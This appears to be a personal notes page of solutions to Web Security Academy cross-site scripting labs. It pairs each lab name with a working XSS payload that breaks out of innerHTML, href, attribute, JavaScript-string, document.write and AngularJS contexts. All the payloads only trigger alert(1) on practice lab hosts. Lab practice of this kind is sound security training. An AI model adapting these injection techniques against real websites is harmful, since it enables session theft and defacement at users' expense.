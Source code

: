 Lab: DOM XSS in innerHTML sink using source

-> payload: ```<img src='123.png' onerror='alert(1)'>```


Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```


Lab: Reflected XSS into attribute with angle brackets HTML-encoded

-> payload: ```js " autofocus onfocusin='alert(1)' x="```


Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

-> payload: ```js https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)


Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

-> payload: ```js 123'; alert(1);//```


Lab: DOM XSS in document.write sink using source location.search inside a select element

-> payload: ```js https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```


Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

-> payload: ```js {{constructor.constructor('alert(1)')()}}```

